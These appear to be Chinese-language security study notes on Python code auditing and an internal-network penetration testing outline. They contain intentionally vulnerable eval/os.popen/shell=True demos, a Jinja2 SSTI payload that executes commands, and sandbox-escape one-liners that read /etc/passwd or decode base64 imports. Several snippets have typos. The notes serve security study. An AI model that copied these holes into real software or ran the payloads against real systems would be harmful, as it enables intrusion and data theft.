 # day9

## Python代码审计

### OS命令注入

*   与OS命令注入攻击相关的模块：`eval()`、`os.system()`、`os.popen*`、`subprocess.popenos.spawn*`、`commands.*`、`popen2.*`。

    * 下面是一个用Python中Django写的，可以利用eval命令注入的简单Python Web服务的Demo：

    ```python
    def eval_test(request):
        if request.method == 'GET':
            return render_to_response('eval.html',context_instance=RequesetContext(request))
        elif request.method == 'POST':
            domain = request.POST.get('domain','')
            command = "os.popen('whois" + domain + "')"
            output = eval(command)
        return render_to_response('eval.html', {'output':output.readlines()}, context_instance=RequestContext(request))
    ```

    * OS命令注入：subprocess.call函数（shell=True时，函数会在命令前添加-c选项）。开发建议 → 使用pipes.quote()函数去过滤用户输入；尽量不要使用shell=True...

    ```python
    subprocess.call("cat " + user_input, shell=True)
    subprocess.call("cat %s"%(user_input), shell=True)
    subprocess.call("cat {0}".format(user_input), shell=True)
    ```

#### 简单练习

```python
@app.route("/eval/")
def eval_test():
    ip = request.args.get('ip', '127.0.0.1')
    output = os.popen('ping -c 2' + ip).readlines()
    output = '<br>'.join(output)
    t = Template(output)
    return r.render()
```

### 服务端模板注入（SSTI）

*   发生在MVC框架的view层。

    * 模板注入：`{{9-6}}`，在括号内的内容会被当作Python模板被执行

    ```python
    @app.route("/")
    def index():
        name = request.args.get('name', 'guest')
        t = Template('Hello', name)
        return t.render()
    ```

    * 利用jinjia2语法执行命令：

    ```python
    {% for c in [].__class__.__base__.__subclass__() %}
        {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.globals__.values() %}
            {% if b.__class__ == {}.__class__ %}
                {% if 'eval' in b.keys() %}
                    {{ b['eval']('__import__("os").popen("id").read()') }}
                {% endif %}
            {% endif %}
        {% endfor %}
        {% endif %}
    {% endfor %}
    ```

    ```python
    [].__class__.__base__.subclasses__()[60].__init__.__globals__.values()[13]['eval']('__import__("os").popen("id").read()')
    ```
* 服务器端模板注入相当于控制了对方的view层，可以获得一切jinja2中可以获取的数据。但此时我们仍然在jinja2的沙箱中，接下来我们需要绕过沙箱。

### Python沙箱逃逸

* 沙箱一般是限制指定函数的运行，或者对指定模块的删除以及过滤

#### 任意代码执行

* 一些任意代码执行以及文件读取的函数
  1. os执行系统命令：`os.system('ipconfig')`
  2. exec任意代码执行：`exec('__import__("os").system("ipconfig")')`
  3. eval任意代码执行：`eval('__import__("os").system("ipconfig")')`
  4. timeit → 本是检测本机性能的，也可以任意代码执行：`timeit.timeit("__import__('os').system('ipconfig')", number=1)`
  5. platform：`platform.popen('ipconfig').read()`
  6. subprocess：`subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE, stderr=subprocess)`
  7. file：`file('/etc/passwd').read()`
  8. open：`open('/etc/passwd').read()`
  9. codecs：`codecs.open('/etc/passwd').read()`

#### 其他攻击方法

* _PS_：Bypass明文过滤源码

```python
import re
pattern = re.complile('(os|commands|subprocess|sys)')
while True:
    code = raw_input('')
    match = re.search(pattern, code)
    if match:
        print("forbidden module import detected.")
    else:
        print("Succ!")
```

* base64编码方式逃逸（只适用于Python2）。例子：

```python
__buildins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
# 等价于 __buildins__.__dict__['__import__'](os)
```

*   格式化字符串问题。

    1. 在以下代码中，如果用户输入`%(password)s` 就可以获得用户的真实密码了。

    ```python
    userdata = {"user":"jdoe", "password":"secrect"}
    passwd = raw_input("Password:")

    if passwd != userdata["password"]:
        print("Password "+ passwd + " is wrong for user %(user)s")    %userdata
    ```

    1. 在以下代码中可以通过`{event.__init__.__globals__[CONFIG][SECRET_KEY]}` 就可以泄露敏感信息。

    ```python
    CONFIG = {
        'SECRET_KEY': 'super secret key'
    }

    class Event(object):
        def __init__(self, id, level, message):
            self.id = id
            self.level = level
            self.message = message

    def format_event(format_string, event):
        return format_string.format(event=event)
    ```

#### 使用del过滤防御

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']
del __builtins__.__dict__['input']
# 因为可以绕过del过滤：reload(__buildtins__)，解决办法：
del __builtins__.__dict__['reload']
```

### 反序列化

* `pickle.dump(obj, file[,protocol])` → 序列化对象，并将结果数据写入到文件对象中（protocol是序列化模式，默认值为0以文本的形式序列化）
* `pickle.load(file)` → 反序列化对象，将文件中的数据解析成为一个Python对象。
* pickle的典型应用场景：
  1. 通常在解析认证token、session的时候；
  2. 可能将对象Pickle后存储成磁盘文件；
  3. 可能将对象Pickle后在网络中传输；
  4. 可能参数传递给程序，比如一个sqlmap代码执行漏洞。

## 内网渗透

* 预交互、情报搜集、威胁建模、脆弱点分析、漏洞利用、后漏洞利用、撰写报告

### 扫描网络

* 被动信息扫描 → 开源情报（OSINT）
  * 信息收集框架：Recon-ng、Discover、SpiderFoot、Gitrob-Github
* 端口扫描：Nmap、Zmap、Masccan
* 漏洞扫描：Cobalstrike、Tenable Nessus、Rapid7 Nexpose、OpenVas、Metasploit、Nmap scripts、巡风（偏内网资产审计）
* 漏洞利用：metasploit、meterpreter
* 添加路由：route add/remove subnet_addr

### 域渗透

* 工作组、家庭组
* _P.S._：信息安全四大顶会，RSAP
